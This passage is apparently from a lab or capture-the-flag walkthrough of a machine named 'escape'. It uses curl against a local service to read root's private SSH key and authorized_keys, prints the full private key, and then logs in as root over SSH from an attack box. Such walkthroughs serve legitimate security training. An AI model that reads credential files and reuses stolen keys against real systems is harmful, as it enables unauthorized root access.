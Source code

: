 Let's determine if the root user has a private SSH key available:

$ curl -k https://localhost:1337/root/.ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEAwwvvVIS3//uz+Mpg24l51p48akveZgI8bDQDun7y9BKhRDWg
GzIzCpt7NcVWVN2llo9KOL3c3EZZxGOaTbzpINZxSWj3/WWBYhNqmKQRsgJzbPv2
kOe/XwWw8Bt9TuFAd7GUbylpbyHOES7siXFUd/XP503ehllp/JFp0G+2YPkYPGbi
0EISJcNFPNnRlXIQs3Fte0QqFiPE9nPycSMqvGz8a9OtaPGlmOZ3wP56jxxIBT0I
SrkfuLGw7b9VN05jJ33EMtDGRyyDLljFXv7t5OktkC0omumXyWG2KRRe3Avn4RMI
V+IE0rS8N2pIymRF3u8U/9YMX/Ps2EPvNQFkTQIDAQABAoIBAQCXXa/Ce6z/76pf
rU81kJ8JO4vPQkm6CIozvroWBWcumzaj5Kn38SFDXh5kQF0bR1e2XEVRe6bnG4GW
s2WQZsbVQRZxzhCGiju6jS7wfoNtDhHdxjw3gGI3sAb8j5jTmmOZgCqdihnUsPtm
wm+2ykivQAi0jO3gfYuPApqHs+ppngt2KeMUZesIz4BWuFAnS0ePK/tpTHpZ4KRj
D/sb1kdseaCmPfOD6oTMGNtTiakkDUzObN3Pw19v5wkHfawTbmsSeiPmW1nC5xh/
OI7K+wbVUCj3Dys3xqKoCMK27y+pYHzzoiz7ol+OitIth6ucDe6NC6cFbVPmW2o0
fk+U8VbRAoGBAOcfAlARjYV6qc2ukF9NYlVy/WYoP3zFzfb7uYu9I1OpLID+PYeN
ixpqKKgRoxM+ndsWWnyHjw5Kyq2+DHBE67OOpbd69y+fUYOhFiSH2TnQsB1LPtkH
ZT0pZyaBavQLZFZChpOeQ96qfEw5xwA65zENCSFoGoILHS92akVmWQnTAoGBANgK
0qNNsJYETJSob/KdnMYXbE3tPjNkdCzKXXklgZXeUKn6U//0vRhJWZGHv8RDWrlh
1wc9Op88Dx003Ay+3vVqjOs7ur46KankMTj+PN5B5CX1CioXtJ9T6qRF+8+46oq7
pXBTqfi7Gp2m+RuQJS9Ct2bu6OUYgGdUzQ8p/+VfAoGAOhCnUxhl1sAPgxY1PUxC
xTcDhLPd52oGqeNqJTpacr1Q6gN1z+V2qic7maX8s2wK2q0OBLVF8pBFxUq280nN
caoH5kXlbjh3kTtaRck/gO/2HxX1by8Vdz08pgbjqPZnuegyyUl8wadRXREy9tLV
nJQq1BLEfiFurqrwXgktm3MCgYEAroDPcyilogcG9Gy5P/cfUsJIsQkYXNqfHC65
IcmxyiQwc5vHjc9ZjexxdKN5ukXNWkA1N5u1ZjlU2/p+Y60o2oKeIMO2K0E/tgKj
36077Sq75gzvkOBk/O0Dcn000KxEhprbHsf1WvuGnCDqxeDAqFPzYClJ5QLNdKmC
mOUL1XECgYB1wX6H2xWJ+GvC1qKVs4WOYjfCvVZTh+9i8CpA1i4xmmmXXnc+jy/O
Bl7VLsdfeQ3L/NOBTng09PO2lwSWdghCMeS25rMm6/xZTOduauGVTMKx4DT7FvX6
NLU86rcVJCcqL0LdcJ7/2tmwsyuqhCLQ0fl37ZCS93LTXqGUzXfViw==
-----END RSA PRIVATE KEY-----

Strangely enough, if we view root's authorized_keys file, we determine that the machine allows its own private key for the root user:

$ curl -k https://localhost:1337/root/.ssh/authorized_keys 
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDC+9UhLf/+7P4ymDbiXnWnjxqS95mAjxsNAO6fvL0EqFENaAbMjMKm3s1xVZU3aWWj0o4vdzcRlnEY5pNvOkg1nFJaPf9ZYFiE2qYpBGyAnNs+/aQ579fBbDwG31O4UB3sZRvKWlvIc4RLuyJcVR39c/nTd6GWWn8kWnQb7Zg+Rg8ZuLQQhIlw0U82dGVchCzcW17RCoWI8T2c/JxIyq8bPxr061o8aWY5nfA/nqPHEgFPQhKuR+4sbDtv1U3TmMnfcQy0MZHLIMuWMVe/u3k6S2QLSia6ZfJYbYpFF7cC+fhEwhX4gTStLw3akjKZEXe7xT/1gxf8+zYQ+81AWRN root@escape

We can confirm this by comparing it to the public key.

$ curl -k https://localhost:1337/root/.ssh/id_rsa.pub
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDDC+9UhLf/+7P4ymDbiXnWnjxqS95mAjxsNAO6fvL0EqFENaAbMjMKm3s1xVZU3aWWj0o4vdzcRlnEY5pNvOkg1nFJaPf9ZYFiE2qYpBGyAnNs+/aQ579fBbDwG31O4UB3sZRvKWlvIc4RLuyJcVR39c/nTd6GWWn8kWnQb7Zg+Rg8ZuLQQhIlw0U82dGVchCzcW17RCoWI8T2c/JxIyq8bPxr061o8aWY5nfA/nqPHEgFPQhKuR+4sbDtv1U3TmMnfcQy0MZHLIMuWMVe/u3k6S2QLSia6ZfJYbYpFF7cC+fhEwhX4gTStLw3akjKZEXe7xT/1gxf8+zYQ+81AWRN root@escape

To exploit this, we can simply copy the private key to our attack machine, save it as id_rsa, give it proper permissions, and then SSH to the target as root:

kali@kali:~$ chmod 0600 id_rsa
kali@kali:~$ ssh -i id_rsa -o StrictHostKeyChecking=no root@192.168.120.138
...
root@escape:~# id
uid=0(root) gid=0(root) groups=0(root)
root@escape:~#

